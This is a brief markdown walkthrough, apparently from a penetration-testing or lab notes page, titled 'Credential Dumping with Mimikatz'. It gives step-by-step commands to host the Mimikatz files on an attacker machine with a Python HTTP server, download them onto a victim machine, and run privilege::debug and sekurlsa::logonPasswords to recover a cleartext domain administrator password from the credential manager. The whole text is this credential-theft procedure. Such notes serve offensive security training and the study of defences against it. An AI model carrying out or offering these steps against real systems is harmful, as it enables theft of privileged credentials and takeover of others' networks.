 ## Credential Dumping with Mimikatz
- Open terminal in the directory containing the mimikatz x64 directory
- `python3 -m http.server 80`
- Open Edge on vicitim machine and navigate to attacker's IP
- Download all 4 files
- Run mimikatz as administrator on victim machine `mimikatz.exe`
- Set privilege mode to debug: `privilege::debug`
- List providers credentials: `sekurlsa::logonPasswords`
- Cleartext DA password:

  ![image](https://github.com/user-attachments/assets/0a6b58c3-27c7-40dc-9cdf-5ad3718f1efe)

- It is stored in the cred manager
